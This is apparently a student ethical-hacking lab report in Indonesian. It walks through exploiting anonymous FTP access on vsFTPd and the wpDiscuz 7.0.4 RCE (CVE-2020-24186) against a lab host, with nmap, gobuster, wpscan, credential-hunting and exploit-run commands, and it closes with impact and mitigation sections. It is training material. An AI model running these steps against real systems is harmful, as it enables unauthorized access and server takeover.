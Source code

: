 # ETHACK-PRAKTIKUM-2-2024

1. Cover Page

Nama Praktikan: Muhammad Kenas Galeno Putra
NRP: 5027231069
Judul Praktikum: Vulnerability Exploitation on FTP and WordPress Plugins

2. Nama Kerentanan

Vulnerable FTP: vsFTPd 3.0.5
Vulnerable WordPress Plugin: wpDiscuz 7.0.4 (Remote Code Execution)

3. Deskripsi Kerentanan

Vulnerable FTP: Kerentanan pada server FTP ini memungkinkan akses anonymous, sehingga siapa pun bisa mengakses dan mengunduh file tanpa autentikasi, yang dapat berisiko jika file tersebut berisi informasi sensitif.
Vulnerable WordPress Plugin: Plugin wpDiscuz versi 7.0.4 rentan terhadap Remote Code Execution (RCE), memungkinkan penyerang menjalankan perintah di server yang menggunakan plugin ini.

4. CVSS Score

Vulnerable FTP: CVSS Score: 5.0 (Medium) – Risiko dari akses unauthorized namun tidak langsung memberikan kendali penuh ke sistem.
wpDiscuz RCE: CVSS Score: 9.8 (Critical) – Kerentanan RCE memberikan akses penuh penyerang ke server.

5. Langkah Pengerjaan

Vulnerable FTP:
Pindai server untuk menemukan port yang terbuka:

```bash
nmap -p- 10.15.42.245
```
![langkah 1](https://github.com/user-attachments/assets/c1c2c175-0904-42e9-ad4e-10f43bda4e87)


Pindai kerentanan FTP dengan Nmap:

```bash
gobuster dir --url http://10.15.42.245:487 --wordlist /usr/share/wordlists/dirb/common.txt
```
![langkah 2](https://github.com/user-attachments/assets/e1622ada-0dc9-4a72-b402-35f5904e8fd5)


Login ke FTP menggunakan akun anonymous:

```bash
ftp 10.15.42.245
```

```bash
ls
get list.xyz
get readme.txt
exit
```

![langkah 3](https://github.com/user-attachments/assets/ddb6a8dd-5e9e-4240-966f-124bf9380e0a)


Mencari username atau password dalam file:

```bash
cat list.xyz
grep -i "ethack" list.xyz
```

![langkah 4](https://github.com/user-attachments/assets/af24be7f-4219-40a3-8dd3-0d9b06e7c6e8)

Masukkan password pada hashes.txt

```bash
nano hashes.txt
```

![langkah 5](https://github.com/user-attachments/assets/70d6be57-2b69-45ee-a9f4-4fbfed67d89c)

ssh ethack@10.15.42.245

![langkah 12](https://github.com/user-attachments/assets/2ca41880-cebd-4436-aa96-bcf6416946d0)


ls -l

cat readme.txt

![langkah 13](https://github.com/user-attachments/assets/729aab3a-0f7e-41c0-8db6-b2553c250bee)



http://10.15.42.245:487

![langkah 6](https://github.com/user-attachments/assets/4b46ba37-e4cb-4191-a71a-ef75216d3920)

```bash
wpscan --url http://10.15.42.245:487 --enumerate p
```
![langkah 7](https://github.com/user-attachments/assets/86286eda-8900-48d6-8cf4-5b5a101df2f5)

Clone exploit wpDiscuz:

```bash
git clone https://github.com/hev0x/CVE-2020-24186-wpDiscuz-7.0.4-RCE
```
![langkah 8](https://github.com/user-attachments/assets/ce1f2b97-1a83-4b2e-a69e-c977bfb87140)

Jalankan exploit:

```bash
cd CVE-2020-24186-wpDiscuz-7.0.4-RCE
```

```bash
sudo python3 wpDiscuz_RemoteCodeExec.py -u http://10.15.42.245:487 -p /2024/10/03/trial/
```

Tampilkan:

```bash
ls
```
![langkah 9](https://github.com/user-attachments/assets/42e42452-3951-4645-b4fe-8b848ad104e1)


6. Dampak

Vulnerable FTP: Akses unauthorized memungkinkan pengunduhan file yang mungkin berisi informasi sensitif seperti hash password, data pengguna, atau file penting lainnya.
wpDiscuz RCE: Penyerang bisa mengeksekusi perintah di server, yang bisa mengarah ke kontrol penuh atas server WordPress, termasuk pencurian data, defacement website, dan tindakan jahat lainnya.

7. Mitigasi

FTP Vulnerability:
Nonaktifkan akses anonymous pada FTP.
Gunakan protokol yang lebih aman seperti SFTP atau FTPS.
wpDiscuz RCE:
Patch plugin ke versi terbaru.
Batasi akses ke plugin dan pantau aktivitas server secara berkala untuk mendeteksi aktivitas mencurigakan.
